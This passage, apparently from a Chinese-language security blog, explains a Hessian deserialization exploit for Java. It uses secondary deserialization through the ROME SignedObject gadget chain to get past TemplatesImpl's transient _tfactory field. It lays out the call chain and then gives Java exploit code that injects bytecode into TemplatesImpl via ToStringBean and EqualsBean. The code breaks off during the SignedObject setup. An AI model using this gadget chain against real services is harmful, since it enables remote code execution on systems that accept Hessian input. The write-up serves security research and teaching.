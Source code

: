 ## TemplatesImpl

首先考虑一下动态字节码加载的打法，但是明显是不行的，因为`TemplatesImpl`中的`_tfactory`是一个`transient`，无法参与序列化与反序列化，因此可以采取二次反序列化的打法，就是上文的`ROME`中的`SignedObject`链。

调用链如下：

```plain
hessianinput.readObject()->
    hashmap.put()->
        EqualsBean.hashcode()->
            ToStringBean.toString()->
                SignedObject.getObject()->
                        hashmap.readObject()->后面的利用链
```

exp 如下：

```plain
package com.example.Hessian;

import cn.hutool.core.lang.hash.Hash;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.example.jackson.TemplateImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class hessian_signobject {
    public static void main(String[] args) throws Exception {
        byte[] code =getTemplates();
        byte[][] codes={code};
        TemplatesImpl templates=new TemplatesImpl();
        setValue(templates,"_tfactory",new TransformerFactoryImpl());
        setValue(templates,"_name","Aiwin");
        setValue(templates,"_class",null);
        setValue(templates,"_bytecodes",codes);
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        EqualsBean equalsBean=new EqualsBean(String.class,"aiwin");
        HashMap hashMap=new HashMap();
        hashMap.put(equalsBean,"aaa");
        setValue(equalsBean,"_beanClass",ToStringBean.class);
        setValue(equalsBean,"_obj",toStringBean);

        //SignedObject
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
```